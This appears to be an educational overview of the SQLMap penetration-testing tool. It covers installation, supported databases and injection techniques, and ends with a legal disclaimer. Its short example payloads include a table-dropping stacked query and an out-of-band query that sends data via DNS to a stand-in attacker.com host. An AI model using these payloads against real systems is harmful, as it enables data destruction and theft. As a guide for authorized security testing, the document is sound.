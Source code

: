# SQLMap Overview
SQLMap is a free and open-source penetration testing tool written in Python. It automates the process of detecting and exploiting SQL injection (SQLi) flaws. SQLMap has been continuously developed since 2006.

---

## Installation
SQLMap is pre-installed on most security-focused operating systems. To install manually:
```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
cd sqlmap-dev
python sqlmap.py
```

---

## Supported Databases
SQLMap supports the following DBMSes:
-  MySQL
-  Oracle
-  PostgreSQL
-  Microsoft SQL Server
-  SQLite
-  IBM DB2
-  MariaDB
-  Amazon Redshift
-  Apache Ignite

---

## Supported SQL Injection Types
SQLMap can detect and exploit:
- **Boolean-based Blind**
- **Error-based**
- **Union Query-based**
- **Stacked Queries**
- **Time-based Blind**
- **Out-of-band**

---

## Examples of SQL Injection Techniques

### Boolean-based Blind SQL Injection
> Example Query: AND 1=1
SQLMap differentiates TRUE from FALSE responses by comparing server output to extract information.

### Error-based SQL Injection
> Example Query: AND GTID_SUBSET(@@version,0)
This technique uses database error messages to retrieve information.

### Union Query-based SQL Injection
> Example Query: UNION ALL SELECT 1,@@version,3
This is the fastest SQLi type as it retrieves data in a single request.

### Stacked Queries
> Example Query: ; DROP TABLE users
Allows execution of multiple SQL statements in one query.

### Time-based Blind SQL Injection
> Example Query: AND 1=IF(2>1,SLEEP(5),0)
Differentiates responses based on the server's response time.

### Out-of-band SQL Injection
> Example Query: LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
This advanced SQLi type uses DNS requests to exfiltrate data.

---

## Legal Disclaimer
Usage of SQLMap without proper authorization is illegal. Always ensure you have explicit permission before testing any system.
